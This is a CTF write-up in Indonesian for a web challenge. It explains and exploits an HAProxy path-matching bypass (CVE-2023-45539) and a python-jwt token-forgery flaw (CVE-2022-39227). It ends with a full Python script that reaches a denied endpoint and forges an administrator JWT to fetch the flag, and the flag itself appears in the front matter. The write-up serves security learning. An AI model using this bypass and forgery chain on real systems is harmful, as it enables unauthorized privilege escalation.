 ```yaml
---
title: anotherroblox
category: Web Exploitation
tags: CVE
completedDuringEvent: true
submitted: true
flag: WRECKIT60{Wh0_N33ds_RS256?_HS256_1s_My_M4st3r_K3y!}
points: 995
draft: false
---
```

## Analisa

Diberikan sebuah web service,begini tampilannya

![](tampilan.png)

Juga, di deskripsi challenge terdapat 2 hints, yaitu “cve haproxy n cve python jwt” disini gw langsung mencoba mencari referensi nya di google, dan menemukan artikel ini (https://www.haproxy.com/blog/december-2023-cve-2023-45539-haproxy-accepts-as-part-of-the-uri-component-fixed) dan (https://pentesterlab.com/exercises/jwt-xv)



![](endpoint.png)




## Penjelasan CVE




### *CVE-2023-45539: HAProxy Fragment Bypass*

HAProxy sebelum versi 2.8.2 salah menerima karakter `#` (fragment/hash) sebagai bagian dari URI path. Normalnya, web server modern seperti Apache dan NGINX akan reject request dengan # di path, tapi HAProxy memprosesnya.

### Attack Vector

AProxy menggunakan path sample fetch function untuk matching rules seperti ini:


```
  use_backend static if { path_end .png .jpg .gif .css .js }
```



Dan ada denial rule di chall ini:
```
  http-request deny if { path_beg,url_dec -i /api/v1/get_ticket }
```

Bypass technique: Karena HAProxy salah parsing fragment, attacker bisa gunakan berbagai encoding trick untuk bypass path matching: (Referensi: https://ctftime.org/writeup/38742)
```
http://victim.com/%2fapi/v1/get_ticket
```


### *CVE-2022-39227: python-jwt Token Forgery*

Library python-jwt versi < 3.3.4 vulnerable terhadap JWT format confusion. Vulnerability ini muncul karena inconsistency antara JWT parser di python-jwt dan dependency-nya jwcrypto

JWT punya dua format representasi:
1. Compact format: `header.payload.signature`
2. JSON format: `{"protected":"header", "payload":"payload", "signature":"signature"}`

Library jwcrypto yang digunakan untuk verify signature memparsing JWT dalam urutan prioritas tertentu. Attacker bisa mix kedua format untuk trick parser.



### Attack Vector

1. Dapatkan valid JWT (role: guest):
```auto
eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJyb2xlIjoiZ3Vlc3QifQ.signature
```

2. Buat fake payload dengan modified claims (role: admin):
```
{"exp": 1759576262, "role": "admin", "user": "roblox_developer"}
```


3. Forge token dengan polyglot format:
```
{
  "header.fake_payload.": "",
  "protected": "header",
  "payload": "original_payload",
  "signature": "original_signature"
}
```

4. Parser confusion terjadi, python-jwt parsing: membaca `fake_payload` dari compact format di key pertama, jwcrypto verifying: verifikasi signature terhadap original payload di field "payload" Result: signature VALID (karena verify original payload), tapi claims yang digunakan adalah `fake_payload`

## Solve
```py
import base64
import json
import requests

target = "http://157.230.150.185:9002"

# Step 1: Bypass HAProxy dengan fragment (%2f)
resp = requests.get(f"{target}/%2f/api/v1/get_ticket")
jwt_token = resp.json()["developer_pass: "]
print(jwt_token)

# Step 2: Parse JWT (header.payload.signature)
parts = jwt_token.split('.')
header = parts[0]
payload = parts[1]
signature = parts[2]

# Decode payload
decoded_payload = json.loads(base64.urlsafe_b64decode(payload + '=='))
print(decoded_payload)

# Step 3: Forge payload dengan role administrator
decoded_payload['role'] = 'administrator'
print(decoded_payload)

# Encode fake payload
fake_payload = base64.urlsafe_b64encode(
    json.dumps(decoded_payload, separators=(',', ':')).encode()
).decode().rstrip('=')

# Step 4: Buat polyglot JWT (CVE-2022-39227)
forged_token = '{' + f'\" {header}.{fake_payload}.\":\"\",' + f'\"protected\":\"{header}\",' + f'\"payload\":\"{payload}\",' + f'\"signature\":\"{signature}\"' + '}'

# Step 5: Get flag dengan forged token
headers = {"Authorization": forged_token}
flag_resp = requests.get(f"{target}/api/v1/flag", headers=headers)
print(flag_resp.text)
```





![](flag.png  )